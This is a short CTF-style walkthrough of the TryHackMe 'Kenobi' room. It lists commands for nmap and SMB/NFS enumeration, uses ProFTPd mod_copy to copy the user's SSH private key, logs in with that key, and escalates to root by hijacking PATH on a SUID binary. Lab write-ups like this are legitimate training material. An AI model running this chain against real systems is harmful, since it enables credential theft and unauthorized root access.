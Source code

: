 # Kenobi

[link to the room](https://tryhackme.com/room/kenobi)

`export ip=10.10.48.7`



# Recon

## nmap
- `nmap -sC -sV -v -oN recon/nmap $ip`
- `nmap --script=smb-enum-shares.nse,smb-enum-users.nse -p445 -oN recon/nmap.v2 -T5 -v $ip`

- `nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount -oN recon/nmap.v3 -v $ip`
# TASK

- connect to smb: `smbclient //$ip/anonymous`

- recursively download the SMB share : `smbget -R smb://$ip/anonymous`

## Gain initial access with proFTPd

- connect to ftp : `ftp $ip`
```
site CPFR /home/kenobi/.ssh/id_rsa
site CPTO /var/tmp/id_rsa
```
- mount the /var/tmp directory to our machine:
```
mkdir /mnt/kenobiNFS
mount $ip:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
```
- go to /var/tmp and get the private key then login to Kenobi's account:
```
cp /mnt/kenobiNFS/tmp/id_rsa .
chmod 600 id_rsa
ssh -i id_rsa kenobi@$ip
```

## PrivEsc

- find SUID executable : `find / -user root -type f -perm -u=s -exec ls -l {} \; 2> /dev/null`

- exploit relative ENV: 
```
strings /usr/bin/menu
echo /bin/bash > uname
chmod 777 uname
export PATH=.:$PATH
```